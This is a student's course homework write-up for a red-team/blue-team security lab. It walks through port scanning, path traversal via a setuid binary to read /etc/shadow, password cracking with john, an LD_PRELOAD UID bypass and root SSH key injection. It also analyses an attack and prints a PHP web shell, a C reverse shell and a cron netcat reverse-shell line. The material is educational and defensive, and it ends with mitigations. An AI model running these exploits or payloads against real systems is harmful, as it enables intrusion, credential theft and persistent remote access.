\documentclass[12pt, a4paper]{article}
\usepackage{enumitem}
\usepackage{float}
\usepackage[left=2cm, right=2cm, top=2cm, bottom=2cm]{geometry}
\usepackage{graphicx}
\usepackage[colorlinks, urlcolor=blue]{hyperref}
\usepackage{minted}
\usepackage{xeCJK}

\renewcommand\arraystretch{1.5}
\setCJKmainfont[AutoFakeBold=1.5]{新細明體}
\setlength{\parindent}{0pt}

\setminted{
  frame=single,
  tabsize=2,
}

\title{
  \vspace{-1cm}
  Network Administration/System Administration\\
  (NTU CSIE, Spring 2024)\\
  Homework \#12 - Security (Part II)
}
\author{\Large B12902110 呂承諺}

\begin{document}
  \maketitle

  \section{Red Team}
  \begin{enumerate}[label=(\alph*)]
    \item \textbf{Steps}
    \begin{enumerate}[label=(\arabic*)]
      \item Download \verb|id_e25519| from folder \verb|NASAHW12_2024_SECURTIY| on Google Drive.
      \item Run \verb|chmod 600 id_e25519|.
      \item Run \verb|ssh -i id_e25519 student@10.0.2.17|. We get an error however.
      \begin{Verbatim}[frame=single]
ssh: connect to host 10.0.2.17 port 22: Connection refused
      \end{Verbatim}
      \item Run \verb|nmap -v -sV -p1-65535 10.0.2.17| to scan open ports on \verb|nasa_hw11_red|. We discover that the SSH service actually runs on
      port 22087.
      \begin{Verbatim}[frame=single, commandchars=\\\{\}]
PORT      STATE SERVICE         VERSION
8888/tcp  open  sun-answerbook?
9999/tcp  open  abyss?
\textcolor{red}{22087/tcp open  ssh             OpenSSH 9.6 (protocol 2.0)}
      \end{Verbatim}
      \item Run \verb|ssh -p 22087 -i id_25519 student@10.0.2.17| to login
      to \verb|nasa_hw11_red|.
      \item Run \verb|cat flag1|.
    \end{enumerate}
    \textbf{Flag}\quad\verb|NASA{W0W_Y0U_KN0W_NM49_70_5C4N_55H_H093_Y0U_D0N'7_BRU73_F0RC3_17}|

    \textbf{Result}

    
\includegraphics[width=0.8\linewidth]{1-a_result.png}

    \textbf{References}
    \begin{itemize}
      \item \href{https://man.openbsd.org/ssh}{ssh(1) - OpenBSD manual pages}
    \end{itemize}

    \item \textbf{Steps}
    \begin{enumerate}[label=(\arabic*)]
      \item From the previous subtask, we discover that the service on port 8888 says something
      about nasa2024 and nasa2023.

      
\includegraphics[width=0.9\linewidth]{1-b_nmap.png}

      \item Run \verb|nc 10.0.2.17 8888|. We get a prompt for Diffie–Hellman key exchange. After
      entering some random value for \verb|v|, we get some ciphertext which is claimed
      to be encrypted with AES in CBC mode.

      \item Therefore, we use Python's \verb|cryptography| package to code a simple script
      that handles Diffie–Hellman key exchange and AES decryption.

      \begin{minted}[fontsize=\scriptsize]{python}
# 1-b.py
from cryptography.hazmat.primitives import ciphers
from cryptography.hazmat.primitives.asymmetric import dh
from cryptography.hazmat.primitives.ciphers import algorithms
from cryptography.hazmat.primitives.ciphers import modes


def dh_shared_key(p: int, g: int, u: int) -> bytes:
    parameter_numbers = dh.DHParameterNumbers(p, g)
    parameter = parameter_numbers.parameters()
    server_public_numbers = dh.DHPublicNumbers(u, parameter_numbers)
    server_public_key = server_public_numbers.public_key()

    client_private_key = parameter.generate_private_key()
    print(f'v = {client_private_key.public_key().public_numbers().y}')

    shared_key = client_private_key.exchange(server_public_key)
    print(f'shared_key = {shared_key.hex()}')
    return shared_key


def aes_cbc_decrypt(ciphertext: bytes, key: bytes, iv: bytes) -> bytes:
    cipher = ciphers.Cipher(algorithms.AES(key), modes.CBC(iv))
    decryptor = cipher.decryptor()
    return decryptor.update(ciphertext) + decryptor.finalize()


def main():
    p = 225767...319809  # Omitted.
    g = 7
    u = int(input('u = '))

    aes_key = dh_shared_key(p, g, u)[:16]
    print(f'aes_key = {aes_key.hex()}')

    iv = bytes.fromhex(input('iv = '))
    ciphertext = bytes.fromhex(input('ecrypted password = '))
    print('decrypted password = '
          f'{aes_cbc_decrypt(ciphertext, aes_key, iv).decode()}')

if __name__ == '__main__':
    main()
      \end{minted}

      \pagebreak
      \item Interact with the service and our script.

      Service:
      \begin{Verbatim}[frame=single, fontsize=\scriptsize, breaklines]
$ nc 10.0.2.17 8888
Hi nasa2024! I am nasa2023. Let's perform Diffie Hellman Key Exchange to send my password to you.
Public Parameters:
p = 225767...319809
g = 7
============================================================
u = 179725...888786
v = 404983...526141
Good, I believe we build a shared secret that only you and I know.
Now, I will encrypt my password with AES in CBC mode using the first 16 bytes of shared secret (padding with zero byte until length of 16 bytes) as the key
============================================================
IV in hex format: 580b40e831f27e903af54ff9f5fe2670
Encrypted password in hex format: 04e150313ac4197b6379aa2886cbeb7cbb758a5d261abf1d31cd2c926fa47e77
============================================================
      \end{Verbatim}

      Script:
      \begin{Verbatim}[frame=single, fontsize=\scriptsize, commandchars=\\\{\}]
$ python 1-b.py
u = 179725...888786
v = 404983...526141
shared_key = 16d148...8612f9
aes_key = 16d148a2b10ef1e3e3d8eff46a1779f7
iv = 580b40e831f27e903af54ff9f5fe2670
ecrypted password = 04e150313ac4197b6379aa2886cbeb7cbb758a5d261abf1d31cd2c926fa47e77
decrypted password = \textcolor{red}{yLXGn4S3wYeAMnF7UySEsw9wMPdh5v2e}
      \end{Verbatim}

      We obtain the password for user nasa2023: \verb|yLXGn4S3wYeAMnF7UySEsw9wMPdh5v2e|.

      \item Use the obtained password to login as nasa2023. Run \verb|cat flag2| to obtain the flag.
    \end{enumerate}

    \textbf{Flag}\quad\verb|NASA{CRY706R49HY_4150_1M90R74N7_1N_CYB3R53CUR17Y!}|.

    \textbf{Result}

    
\includegraphics[width=0.9\linewidth]{1-b_result.png}

    \textbf{References}
    \begin{itemize}
      \item \href{https://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange}{Diffie–Hellman key exchange - Wikipedia}
      \item \href{https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation}{Block cipher mode of operation - Wikipedia}
      \item \href{https://en.wikipedia.org/wiki/Advanced_Encryption_Standard}{Advanced Encryption Standard - Wikipedia}
      \item \href{https://docs.python.org/3/library/functions.html}{Built-in Functions — Python 3.12.3 documentation}
      \item \href{https://docs.python.org/3/library/stdtypes.html}{Built-in Types — Python 3.12.3 documentation}
      \item \href{https://pypi.org/project/cryptography/}{cryptography · PyPI}
      \item \href{https://cryptography.io/en/latest/hazmat/primitives/asymmetric/dh/}{Diffie-Hellman key exchange — Cryptography 43.0.0.dev1 documentation}
      \item \href{https://cryptography.io/en/latest/hazmat/primitives/symmetric-encryption/}{Symmetric encryption — Cryptography 43.0.0.dev1 documentation}
    \end{itemize}

    \pagebreak
    \item \textbf{Steps}
    \begin{enumerate}[label=(\arabic*)]
      \item There is \verb|README.txt| in \verb|/home/nasa2023|. It gives some
      information regarding \verb|/root/comic-server/comic-server|.
      \item Run \verb|stat /root/comic-server|. We discover that its file permissions
      is set to \verb|4755|, with \verb|setuid| on.
      \begin{Verbatim}[frame=single, fontsize=\small, commandchars=\\\{\}]
localhost:~$ stat /root/comic-server/comic-server
  File: /root/comic-server/comic-server
  Size: 19384           Blocks: 40         IO Block: 4096   regular file
Device: 803h/2051d      Inode: 130039      Links: 1
\textcolor{red}{Access: (4755/-rwsr-xr-x)}  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2024-06-07 22:45:40.289998287 +0800
Modify: 2024-05-09 22:33:04.379999973 +0800
Change: 2024-05-09 22:33:13.406666636 +0800
      \end{Verbatim}
      \item Dive into \verb|comic-server.c|. We see that in \verb|void read_comic()|, the
      user input \verb|comic_name| is append after \verb|path|. Therefore, we can
      engineer \verb|comic_name| to contain multiple leading \verb|../|'s to access
      any file as root.
      \item Run \verb|/root/comic-server/comic-server|. ``Choose \verb|2. Read a comic|" and
      type in \verb|../../../etc/shadow| as the comic name. This allows us to see the
      content of \verb|/etc/shadow| and therefore obtain nasa2024's hashed password.
      \begin{Verbatim}[frame=single, fontsize=\scriptsize, breaklines, breakanywhere, breakanywheresymbolpre=]
localhost:/etc$ localhost:/etc$ /root/comic-server/comic-server
Welcome to my comic server!
I have a lot of comic for you to read. Enjoy!
Please select your action:
1. List all comic
2. Read a comic
3. Submit a comic
4. Talk to root
5. Exit
2
Please enter the comic name: ../../../etc/shadow
root:$6$M03rcP5w38H7hYwm$HWKrqjG9ZdY97E2eKWjNIt6biVCVPkVxZZvsfYPoEtk9P30.PfAzgtjI2IPXj9u7Mo0vLxp7U0u.MjFGXehKu.:19850:0:::::
(...)
nasa2023:$6$6qkngoIeqsMizLEE$Mw3jduV64bfY3yd0otGjaMh2nRJFO/WwXGE6qHF27bbZZq15MJORt3JMy54gfSiDJY43AhNeVynnQHGWp4cz41:19850:0:99999:7:::
student:$6$I7GFgsWJRqjNEt1R$ZmWXyy8rK.Imn0V4Jk6Nr7DpjZmoNTZffrtH9pw4ZVr9GX3NYU09pCA7HOtw7flIxXsmjNt7pQwqk9xslrKhi1:19850:0:99999:7:::
nasa2024:$6$fho8wb1AS1tFC5N3$/eNgObHyRphLNbS4FpeAd2wZG.lk33kIVVK21bJDG46rOJ7SsbglPPyw39IrS5YGyPibFD.S4MAih82ldPjFO1:19850:0:99999:7:::
      \end{Verbatim}

      \item Save the hashed password of user nasa202ˋ into file \verb|nasa2024_password.txt|.
      Then crack the password with \verb|john|.
      \begin{Verbatim}[frame=single, fontsize=\scriptsize, commandchars=+\{\}]
$ echo \
    '$6$fho8wb1AS1tFC5N3$/eNgObH......MAih82ldPjFO1' \ # Omitted.
    > nasa2024_password.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt nasa2024_password.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
+textcolor{red}{peanutbutter}     (?)
1g 0:00:00:07 DONE (2024-06-07 11:06) 0.1257g/s 515.2p/s 515.2c/s 515.2C/s cheska..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
      \end{Verbatim}

      \item The password is indeed weak: \verb|peanutbutter|. Use it to login asˋ
      nasa2024, and \verb|cat flag3| to obtain the flag.
    \end{enumerate}

    \pagebreak
    \textbf{Flag}\quad\verb|NASA{533M5_11K3_Y0U_4773ND_14B_7H15_W33K!}|

    \textbf{Result}

    
\includegraphics[width=\linewidth]{1-c_result.png}

    \textbf{References}
    \begin{itemize}
      \item \href{https://man7.org/linux/man-pages/man2/open.2.html}{open(2) - Linux manual page}
      \item \href{https://man7.org/linux/man-pages/man3/opendir.3.html}{opendir(3) - Linux manual page}
      \item \href{https://man7.org/linux/man-pages/man3/readdir.3.html}{readdir(3) - Linux manual page}
      \item \href{https://en.wikipedia.org/wiki/Setuid}{setuid - Wikipedia}
    \end{itemize}

    \pagebreak
    \item \textbf{Steps}
    \begin{enumerate}[label=(\arabic*)]
      \item Same as the last subtask, we can use \verb|/root/comic-server/comic-server|
      to get the content of \verb|/root/flag4|. We write it to a file this time.
      \begin{Verbatim}[frame=single, fontsize=\small]
$ /root/comic-server/comic-server > flag4
2
../../flag4
5
      \end{Verbatim}
      However, the output file would contain prompt of \verb|comic-server|, so we delete
      them ourselves.

      \item Run \verb|flag4|. Sadly, it tells us that we must be root.
      \begin{Verbatim}[frame=single]
localhost:~$ ./flag4
You must be root to run this program
      \end{Verbatim}
      \item So, we try to disassemble the program. Upload the binary file to
      \href{https://dogbolt.org/}{Decompiler Explorer}.
      We see that the main function calls \verb|getuid()| first to check if the
      UID is 0. This could be our point of attack.
      \item After some research, we found out that \verb|getuid()| could be tricked
      by \verb|LD_PRELOAD|. So, we create \verb|fake_uid.c| with our fake \verb|getuid()|
      function.
      \begin{minted}{cpp}
// fake_uid.c
int getuid() {
  return 0;
}
      \end{minted}
      Compile it into a shared library with the following command.
      \begin{Verbatim}[frame=single]
$ gcc -shared -fPIC -o fake_uid.so fake_uid.c
      \end{Verbatim}

      \item Run \verb|flag4| while forcing it to load our library with the fake \verb|getuid()|.
      \begin{Verbatim}[frame=single]
$ LD_PRELOAD=/home/nasa2023/fake_uid.so ./flag4
      \end{Verbatim}
      And we successfully obtained the flag.
    \end{enumerate}
    \textbf{Flag}\quad\verb|NASA{y0u_kn0w_r3v3r53_3n61n33r1n6!_50_c0011}|

    \textbf{Result}

    
\includegraphics[width=0.8\linewidth]{1-d_result.png}

    \textbf{References}
    \begin{itemize}
      \item \href{https://www.linuxquestions.org/questions/programming-9/faking-uids-917910/}{Faking uids}
      \item \href{https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/}{Dynamic linker tricks: Using LD\_PRELOAD to cheat, inject features and investigate programs | Rafał Cieślak's blog}
    \end{itemize}

    \pagebreak
    \item \textbf{Steps}
    \begin{enumerate}[label=(\arabic*)]
      \item With SSH's public key authentication, we can login without the password.\\
      So, we write the contents of \verb|/home/student/.ssh/authorized_keys| to \\
      \verb|/root/.ssh/authorized_keys| using the ``\verb|3. Submit a comic|" functionality of \\
      \verb|/root/comic-server/comic-server|.
      \begin{Verbatim}[frame=single, fontsize=\scriptsize, breaklines]
$ cat /home/student/.ssh/authorized_keys
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILKifq9N8pB3vCgZHje9vuhaJFlvdnFCSxV9oPnIENP8 nasa2024@kali
$ /root/comic-server/comic-server
Welcome to my comic server!
 I have a lot of comic for you to read. Enjoy!
Please select your action:
1. List all comic
2. Read a comic
3. Submit a comic
4. Talk to root
5. Exit
3
Please enter the comic name: ../../.ssh/authorized_keys
Please enter the comic content: ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILKifq9N8pB3vCgZHje9vuhaJFlvdnFCSxV9oPnIENP8 nasa2024@kali
Comic submitted
      \end{Verbatim}
      \item This would allow us to login with the same private key as subtask (a), except
      this time as root.
      \begin{Verbatim}[frame=single]
$ ssh -p 22087 -i id_e25519 root@10.0.2.17
      \end{Verbatim}
    \end{enumerate}
    \textbf{Result}

    
\includegraphics[width=\linewidth]{1-e_result.png}
  \end{enumerate}

  \pagebreak
  \section{Red Team}
  \begin{enumerate}[label=(\alph*)]
    \item \textbf{Steps}

    Run \verb|nmap -v -sV -p1-65535 10.0.2.18| to scan open ports on \verb|nasa_hw11_blue|.

    \textbf{Result}

    An SSH service and an HTTP service are discovered.

    \begin{Verbatim}[frame=single]
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6 (protocol 2.0)
80/tcp open  http    nginx
    \end{Verbatim}

    \item \textbf{Steps}
    \begin{enumerate}[label=(\arabic*)]
      \item Login to \verb|nasa_hw11_blue| with \verb|/home/nasa2024/.ssh/id_blue|.
      \item Inspect the access log of nginx: \verb|/var/log/nginx/access.log|.
      We suspect that some malicious user is trying to execute system commands
      through PHP injection.
      \item Inspect the PHP script that the user uploaded:\\ \verb|/var/www/html/uploads/662f9a8dc30bb.php|.\\
      Our guess was indeed correct.
    \end{enumerate}

    \textbf{Result}

    The service being attacked is the PHP backend of the HTTP service.

    \begin{Verbatim}[frame=single, fontsize=\scriptsize, breaklines]
# less /var/log/nginx/access.log
10.0.2.29 - - [29/Apr/2024:21:03:23 +0800] "GET /uploads/662f9a8dc30bb.php?cmd=ls HTTP/1.1" 200 341 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" "-"
10.0.2.29 - - [29/Apr/2024:21:03:28 +0800] "GET /uploads/662f9a8dc30bb.php?cmd=ls%20/ HTTP/1.1" 200 106 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" "-"
10.0.2.29 - - [29/Apr/2024:21:05:44 +0800] "GET /uploads/662f9a8dc30bb.php?cmd=ls%20/ HTTP/1.1" 200 106 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" "-"
# cat /var/www/html/uploads/662f9a8dc30bb.php
<?php
system($_GET['cmd']);
?>
    \end{Verbatim}

    \item \textbf{Steps}

    Inspect \verb|/var/log/nginx/access.log|.

    \textbf{Result}

    The IP address of the attacker is \verb|10.0.2.29|.

    \item The primary vulnerablility of this HTTP service lies in \verb|upload.php|.
    It allows anybody to upload arbitrary files, including malicious PHP scripts.

    In this case, the attacker uploaded a PHP scripts that calls the \verb|system()|
    function. They are attempting to access the system's shell. \verb|$_GET['cmd']|
    allows them to potentially execute any command by providing
    \verb|?cmd=...| in the URL. What's more scary is that the uploaded files are
    owned by root, so any executable could be run as root.

    \textbf{References}
    \begin{itemize}
      \item \href{https://www.php.net/manual/en/function.system.php}{PHP: system - Manual}
    \end{itemize}

    \pagebreak
    \item \textbf{Result}
    \begin{enumerate}[label=(\arabic*)]
      \item From the access log, we can see that the attacker is trying to
      inject malicious C code and scripts into the system. If we decode the
      base64 string, we see some code that opens a network socket to \verb|10.0.2.20|
      and gain shell access.
      \begin{minted}[fontsize=\scriptsize]{c}
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 9001;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.0.2.20");

    connect(sockt, (struct sockaddr *) &revsockaddr,
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"ash", NULL};
    execvp("ash", argv);

    return 0;
}
      \end{minted}

      \item However, this doesn't seem to be the only attack. Later down
      the access log, we see some shell script being injected, while also
      modifying crontab.
      \begin{Verbatim}[frame=single, fontsize=\scriptsize, breaklines, breakanywhere, breakanywheresymbolpre=]
10.0.2.29 - - [23/Apr/2024:12:25:02 +0800] "GET /uploads/662f9a8dc30bb.php?cmd=echo%20%220%20*%20*%20*%20*%20echo%20%23!1%2Fbin%2Fash%0Awhile%20true%3B%20do%0A%20%20nc%2010.0.2.29%209001%20-e%20ash%0A%20%20sleep%205%0Adone%20%3E%20/var/www/html/uploads/a.sh%20&&%20chmod%20777%20/var/www/html/uploads/a.sh%20&&%20/var/www/html/uploads/a.sh%22%20|%20crontab%20- HTTP/1.1" 200 5 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" "-"
      \end{Verbatim}
      If we decode the percent-encoded query string, we see the command.
      \begin{Verbatim}[frame=single, fontsize=\small, breaklines]
echo "0 * * * * echo #!1/bin/ash\nwhile true; do\n  nc 10.0.2.29 9001 -e ash\n  sleep 5\ndone > /var/www/html/uploads/a.sh && chmod 777 /var/www/html/uploads/a.sh && /var/www/html/uploads/a.sh" | crontab
      \end{Verbatim}

      By writing the command to crontab, \verb|/var/www/html/uploads/a.sh| is generated and
      executed every hour.

      This \verb|a.sh| tries to open a TCP tunnel to the attacker \verb|10.0.2.29:9001|
      every 5 seconds, meanwhile gaining shell access via nc's option \verb|-e ash|.
      \begin{Verbatim}[frame=single]
#!1/bin/ash
while true; do
  nc 10.0.2.29 9001 -e ash
  sleep 5
done
      \end{Verbatim}
    \end{enumerate}

    \pagebreak
    \textbf{Side note}

    If we inspect crontab or \verb|a.sh|, we see that the command is base64-encoded.
    This isn't seen in the access log, and there are no signs of decoding the contents
    and then executing it.
    \begin{Verbatim}[frame=single, fontsize=\small, breaklines, breakanywhere, breakanywheresymbolpre=]
# crontab -l
0 * * * * echo IyExL2Jpbi9hc2gKd2hpbGUgdHJ1ZTsgZG8KICBuYyAxMC4wLjIuMjkgOTAwMSAtZSBhc2gKICBzbGVlcCA1CmRvbmUK > /var/www/html/uploads/a.sh && chmod 777 /var/www/html/uploads/a.sh && ash a.sh &
# cat /var/www/html/uploads/a.sh
IyExL2Jpbi9hc2gKd2hpbGUgdHJ1ZTsgZG8KICBuYyAxMC4wLjIuMjkgOTAwMSAtZSBhc2gKICBzbGVlcCA1CmRvbmUK
# base64 -d /var/www/html/uploads/a.sh
#!1/bin/ash
while true; do
  nc 10.0.2.29 9001 -e ash
  sleep 5
done
    \end{Verbatim}

    \textbf{References}
    \begin{itemize}
      \item \href{https://crontab.guru/#0_*_*_*_*}{Crontab.guru - The cron schedule expression generator}
    \end{itemize}

    \pagebreak
    \item To prevent this type of attack, we can deny uploads of PHP scripts by
    checking the file extension.
    \begin{minted}[fontsize=\small, breaklines]{diff}
--- upload.php
+++ upload_deny_php.php
@@ -11,6 +11,11 @@

     $uploadedFileName = $uploadedFile['name'];
     $uploadedFileExtension = strtolower(pathinfo($uploadedFileName, PATHINFO_EXTENSION));
+    if (strtolower($uploadedFileExtension) == 'php') {
+        echo "Cannot upload php scripts.";
+        return;
+    }
+
     $uniqueFileName = uniqid() . '.' . $uploadedFileExtension;
     $destination = $uploadDir . '/' . $uniqueFileName;
    \end{minted}

    Or more strictly, we could limit the file extension checking to only a fixed
    set of known image file formats.
    \begin{minted}[fontsize=\small, breaklines]{diff}
--- upload.php
+++ upload_only_image.php
@@ -11,6 +11,12 @@

     $uploadedFileName = $uploadedFile['name'];
     $uploadedFileExtension = strtolower(pathinfo($uploadedFileName, PATHINFO_EXTENSION));
+    $supportedImageExtensions = array('apng', 'avif', 'gif', 'jpg', 'jpeg', 'jfif', 'png', 'svg', 'webp');
+    if (!in_array(strtolower($uploadedFileExtension), $supportedImageExtensions)) {
+        echo "File format unsupported.";
+        return;
+    }
+
     $uniqueFileName = uniqid() . '.' . $uploadedFileExtension;
     $destination = $uploadDir . '/' . $uniqueFileName;
    \end{minted}

    \textbf{References}
    \begin{itemize}
      \item \href{https://www.php.net/manual/en/function.system.php}{PHP: system - Manual}
      \item \href{https://www.php.net/manual/en/reserved.variables.files.php}{PHP: \$\_FILES - Manual}
      \item \href{https://www.php.net/manual/en/features.file-upload.post-method.php}{PHP: POST method uploads - Manual}
      \item \href{https://www.php.net/manual/en/function.in-array.php}{PHP: in\_array - Manual}
      \item \href{https://developer.mozilla.org/en-US/docs/Web/Media/Formats/Image_types}{Image file type and format guide - Web media technologies | MDN}
    \end{itemize}

    \pagebreak
    \item Run the PHP service as a separate user other than root, and use access
    control lists to deny the user's access to \verb|/bin|, \verb|/sbin|,
    \verb|/usr/bin| and \verb|/usr/sbin|.

    \textbf{Steps}
    \begin{enumerate}[label=(\arabic*)]
      \item Create user \verb|php| for the PHP service.
      \begin{Verbatim}[frame=single]
# adduser -h /var/www/html -s /sbin/nologin php
      \end{Verbatim}
      \item Configure \verb|/etc/php82/php-fpm.d/www.conf|.
      \begin{minted}[fontsize=\small, breaklines]{diff}
--- www.conf
+++ www.conf
@@ -25,5 +25,5 @@
 ;       --allow-to-run-as-root option to work.
 ; Default Values: The user is set to master process running user by default.
 ;                 If the group is not set, the user's group is used.
-user = root
-group = root
+user = php
+group = php
      \end{minted}
      \item Recursively change ownership of \verb|/var/www/html|. Set permission
      of all files to 644 and directories to 755.
      \begin{Verbatim}[frame=single]
# chown -R php:php /var/www/html
# chmod -R 644 /var/www/html
# chmod 755 /var/www/html /var/www/html/uploads
      \end{Verbatim}
      \item Use access control lists to deny \verb|php| from accessing \verb|/bin|,
      \verb|/sbin|, \verb|/usr/bin| and \verb|/usr/sbin|.
      \begin{Verbatim}[frame=single]
# apk add acl

# setfacl -m "u:php:---" /bin /sbin /usr/bin /usr/sbin

# getfacl /bin
getfacl: Removing leading '/' from absolute path names
# file: bin
# owner: root
# group: root
user::rwx
user:php:---
group::r-x
mask::r-x
other::r-x
      \end{Verbatim}
    \end{enumerate}

    \pagebreak
    \textbf{Result}

